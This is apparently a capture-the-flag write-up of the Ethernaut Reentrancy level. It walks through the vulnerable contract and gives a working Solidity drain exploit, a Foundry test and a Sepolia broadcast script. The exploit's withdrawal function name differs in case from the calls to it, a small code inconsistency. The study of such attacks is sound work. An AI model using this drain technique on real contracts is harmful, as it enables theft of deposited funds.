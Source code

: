 ## 👾 10. Reentrancy

<br>


### tl; dr

<br>

* contracts may call other contracts by function calls or transferring ether. they can also call back contracts that called them (*i.e.*, reentering) or any other contract in the call stack.
    - a **reentrancy attack** can happen when a contract is reentered in an invalid state. this can happen if the contract calls other untrusted contracts or transfers funds to untrusted accounts.
    - state in the blockchain is considered valid when the contract-specific invariants hold true. contract invariants are properties of the program state that are expected always to be true. for instance, the value of owner state variable, the total token supply, etc., should always remain the same.

- in its simplest version, an attacking contract exploits vulnerable code in another contract to seize the flow of operation or funds.
    - for example, an attacker could repeatedly call a `withdraw()` or `receive()` function (or similar balance updating function) before a vulnerable contract’s balance is updated.

* **[for a detailed review on reentrancy attacks, check my mirror post](https://mirror.xyz/go-outside.eth/7Q5DK8cZNZ5CP6ThJjEithPvjgckA24D2wb-j0Ps5-I)**.

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c07d1819-ecbd-4a82-9a6c-aaded440da1b">
</p>



<br>

```solidity
contract Reentrance {
    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to] += msg.value;
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool success, ) = msg.sender.call{value: _amount}("");
            if (success) {
                _amount;
            }
            // unchecked to prevent underflow errors
            unchecked {
                balances[msg.sender] -= _amount; 
            }
        }
    }

    receive() external payable {}
}
```


<br>

---

### discussion

<br>

* the `Reentrance` contract starts with a state variable for `balances`:

<br>

```solidity
contract Reentrance {
  mapping(address => uint256) public balances;
```

<br>

* then we have a getter and a setter function for `donate()` (whoever donates some `ether` becomes part of `balances`) and `balanceOf()`: 

<br>

```solidity
function donate(address _to) public payable {
     balances[_to] = balances[_to] += msg.value;
}

function balanceOf(address _who) public view returns (uint256 balance) {
    return balances[_who];
}
```

<br>

* then, we have the `withdraw(amount)` function, which is the source of our reentrancy attack. 
    - for instance, note how it already breaks the **[`checks -> effects -> interactions` pattern](https://docs.soliditylang.org/en/v0.8.21/security-considerations.html#use-the-checks-effects-interactions-pattern)**.
    - in other words, if `msg.sender` is a (attacker) contract and since `balances` deduction is made after the call, the contract can call a `fallback()` to cause a recursion that sends the value multiple times before reducing the sender's balance.

<br>

```solidity
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool success, ) = msg.sender.call{value: _amount}("");
            if (success) {
                _amount;
            }
            // unchecked to prevent underflow errors
            unchecked {
                balances[msg.sender] -= _amount; 
            }
        }
    }
```
<br>

<p align="center">
<img src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/bed1dd0f-707c-408a-88d8-ee04693667b9" width="50%" align="center"/></p>


<br><br>

* finally, we see a blank `receive()` function, which receives any `ether` sent to the contract without specifically calling `donate()`.
    - `receive()` is a new keyword in solidity 0.6.x, and it is used as a `fallback()` function for empty calldata (or any value) that is only able to receive ether. 
    - remember that solidity’s `fallback()` function is executed if none of the other functions match the function identifier or no data was provided with the function call (and it can be optionally `payable`). 

<br>

```solidity
receive() external payable {}
```



<br>


----

### solution


<br>

* our exploit needs to do the following:
    1. makes an initial donation of `ether` through `call()`.
    2. calls the first `withdraw(initialDeposit)` for this amount of `ether` (which triggers our exploit's `receive()` for the first time and starts the recursion).
    3. call the second `withdraw(address(level).balance)` to drain the contract.

<br>

* the exploit is located at `src/10/ReentrancyExploit.sol`. note that the attack occurs at `run()` and `receive()`. the function `withdrawtoHacker()` can be called afterwords to withdraw the balance from the `ReentrancyExploit` contract:

<br>

```solidity
contract ReentrancyExploit {

    Reentrance private level;
    bool private _ENTERED;
    address private owner;
    uint256 private initialDeposit;

    constructor(Reentrance _level) {
        owner = msg.sender;
        level = _level;
        _ENTERED = false;
    }

    function run() public payable {
        require(msg.value > 0, "must send some ether");
        initialDeposit = msg.value;
        level.donate{value: msg.value}(address(this));
        level.withdraw(initialDeposit);
        level.withdraw(address(level).balance);
    }

    function withdrawtoHacker() public returns (bool) {
        uint256 hackerBalancer = address(this).balance;
        (bool success, ) = owner.call{value: hackerBalancer}("");
        return success;
    }

    receive() external payable {
        if (!_ENTERED) {
            _ENTERED = true;
            level.withdraw(initialDeposit);
        }
    }
}

```

<br>

* which can be tested with `test/10/Reentrancy.t.sol`:

<br>

```solidity
contract ReentrancyTest is Test {

    Reentrance public level;
    ReentrancyExploit public exploit;
    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 
    uint256 initialDeposit = 0.01 ether;
    uint256 initialVictimBalance = 200 ether;

    function setUp() public {
        vm.prank(instance);  
        vm.deal(instance, initialVictimBalance);
        vm.deal(hacker, initialDeposit);

        level = new Reentrance();
        level.donate{value: initialVictimBalance}(instance);
    }

    function testReentrancyHack() public {

        vm.startPrank(hacker);

        exploit = new ReentrancyExploit(level);
        
        ////////////////////////////
        // drain the victim contract
        ////////////////////////////

        assert(hacker.balance == initialDeposit);
        assert(instance.balance == initialVictimBalance);
        assert(address(level).balance == initialVictimBalance);
        assert(address(exploit).balance == 0);

        exploit.run{value: initialDeposit}();
        assert(address(exploit).balance == initialVictimBalance + initialDeposit);

        ///////////////////////////////////////////
        // withdraw from ReentrancyExploit contract
        ///////////////////////////////////////////        
        assert(hacker.balance == 0);
        bool success = exploit.withdrawToHacker();
        
        assert(success);
        assert(hacker.balance == initialVictimBalance + initialDeposit);
        assert(address(exploit).balance == 0);

        vm.stopPrank();
    }
}
```

<br>

* by running:

<br>

```shell
> forge test --match-contract ReentrancyTest -vvvv    
```



<br>

* finally, the solution can be submitted with `script/10/Reentrancy.s.sol`:

<br>

```solidity
contract Exploit is Script {

        address payable instance = payable(vm.envAddress("INSTANCE_LEVEL10"));  
        address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY"));    
        Reentrance level = Reentrance(instance); 
        ReentrancyExploit exploit;
        uint256 immutable initialDeposit = 0.001 ether;
          
        function run() external {

            vm.startBroadcast(hacker);
            
            exploit = new ReentrancyExploit(level);
            exploit.run{value: initialDeposit}();
            bool success = exploit.withdrawToHacker();
            assert(success);

            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/10/Reentrancy.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>

